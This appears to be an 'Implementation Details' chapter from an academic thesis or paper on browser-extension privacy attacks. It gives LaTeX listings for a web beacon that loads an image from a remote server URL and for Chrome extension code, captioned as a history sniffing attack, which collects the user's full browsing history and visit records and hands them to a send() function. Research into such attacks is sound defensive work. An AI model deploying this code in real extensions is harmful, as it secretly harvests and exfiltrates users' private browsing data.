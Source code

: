 
\chapter{Implementation Details}

\paragraph{Web Beacon}

	\begin{figure}
		\begin{lstlisting}
var img = document.createElement('img');
img.setAttribute('src', REMOTE_SERVER_URL);
document.body.appendChild(img);
\end{lstlisting}
		\caption{Component that executes a Web Beacon. }
		\label{code:webBeacon}
	\end{figure}
	
		
	\begin{code}
		\begin{lstlisting}
		var historySniffingStorage = [];
		chrome.history.search({ 'text': '', 'startTime': 0, 'maxResults': 2147483647 }, function(historyItems) {
		for(var i = 0; i < historyItems.length; i++) {
		var storage = { 'url': historyItems[i].url };
		historySniffingStorage.push(storage);
		addVisitItems(storage, i === historyItems.length - 1);
		}
		});
		function addVisitItems(storage, isLast) {
		chrome.history.getVisits({ 'url': storage.url }, function(visitItems) {
		storage.visits = visitItems;
		if(isLast) {
		send(historySniffingStorage);
		}
		});
		}
		\end{lstlisting}
		\caption{Extension code to execute a history sniffing attack.}
		\label{code:historySniffing}
	\end{code}
	
	